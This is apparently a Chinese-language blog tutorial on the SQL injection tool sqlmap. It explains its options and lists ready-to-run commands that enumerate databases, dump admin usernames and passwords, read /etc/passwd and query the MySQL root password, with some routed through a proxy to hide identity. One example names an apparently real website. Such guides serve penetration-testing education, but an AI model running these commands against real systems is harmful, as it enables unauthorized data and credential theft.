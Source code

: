 ```yaml
---
title: Net(4)——sqlmap的使用指南
date: 2020-11-19
author: LM
---
```


## 1.sqlmap中部分参数的备注

### 星号（ * ）

在注入的过程中，有时候会存在伪静态的页面，此时可以使用星号表示可能存在注入的部分

sqlmap可以区分一个 URL 里面的参数来进行注入点测试，但在遇到了一些做了伪静态的网页就无法自动识别了。

```bash
'/admin/1/' 类似于这种，SQLMap 便无法进行注入测试，但它实际上可能是这样的：'/admin.php?id=1'
```

它只是把参数隐藏在了 URL 中，对于这种网页，直接在参数后加上一个星号即可。

```bash
sqlmap -u "www.baidu.com/admin/1*"
```

### –data

使用post方式提交的时候，就需要用到data参数了

### -p

当我们已经事先知道哪一个参数存在注入就可以直接使用-p来指定，从而减少运行时间

### –level

不同的level等级，sqlmap所采用的策略也不近相同，当–level的参数设定为2或者2以上的时候，sqlmap会尝试注入Cookie参数；当–level参数设定为3或者3以上的时候，会尝试对User-Angent，referer进行注入。

### –random-agent

使用该参数，sqlmap会自动的添加useragent参数，如果你知道它要求你用某一种agent，你也应当用user-agent选项自己指定所需的agent

### –technique

这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式。支持的探测方式如下：

- B: Boolean-based blind SQL injection（布尔型注入）
- E: Error-based SQL injection（报错型注入）
- U: UNION query SQL injection（可联合查询注入）
- S: Stacked queries SQL injection（可多语句查询注入）
- T: Time-based blind SQL injection（基于时间延迟注入）

## 2.常用的指令

```lua
检查注入点             sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11"
列数据库信息            sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" --dbs
指定库名列出所有表       sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx --tables
指定库名表名列出所有字段  sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin --columns
指定库名表名字段dump出指定字段
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin -C ac,id,password --dump    
                                                                               
有几个参数可能会用到，直接加在最后面
--cookie=COOKIE                            在需要登录的地方，需要登录后的cookie
--proxy="http://127.0.0.1:8087"            使用HTTP代理隐藏自己的身份，比如使用goagent等
--sql-query=QUERY                          执行一个sql语句，不一定支持

命令解释（-v 等级1）
sqlmap -u "注入地址" -v 1 --dbs              // 列举数据库   
sqlmap -u "注入地址" -v 1 --current-db       // 当前数据库  
sqlmap -u "注入地址" -v 1 --users            // 列数据库用户  
sqlmap -u "注入地址" -v 1 --current-user     // 当前用户  
sqlmap -u "注入地址" -v 1 --tables -D "数据库"                          // 列举数据库的表名  
sqlmap -u "注入地址" -v 1 --columns -T "表名" -D "数据库"               // 获取表的列名  
sqlmap -u "注入地址" -v 1 --dump -C "字段,字段" -T "表名" -D "数据库"   //获取表中的数据，包含列   
```

## 3.Sqlmap参数使用实例

```rust
//指定参数注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "id" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "cat,id" 
//指定方法和post的数据 
   sqlmap -u "http://192.168.1.47/page.php" --method "POST" --data "id=1&cat=2" 
//指定cookie,可以注入一些需要登录的地址 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --cookie "COOKIE_VALUE" 
//通过代理注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --proxy "http://127.0.0.1:8118" 
//指定关键词，也可以不指定。程序会根据返回结果的hash自动判断 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --string "STRING_ON_TRUE_PAGE" 
//显示指定的文件内容，一般用于php 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --file-read /etc/passwd 
//执行你自己的sql语句。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --sql-query="SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1"     
//union注入 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --union-check 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --union-use --banner 
//保存注入过程到一个文件，还可以从文件恢复出注入过程，很方便，一大特色。你可以在注入的时候中断，有时间再继续。 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -b -o "sqlmap.log" 
   sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --banner -o "sqlmap.log" --resume
```
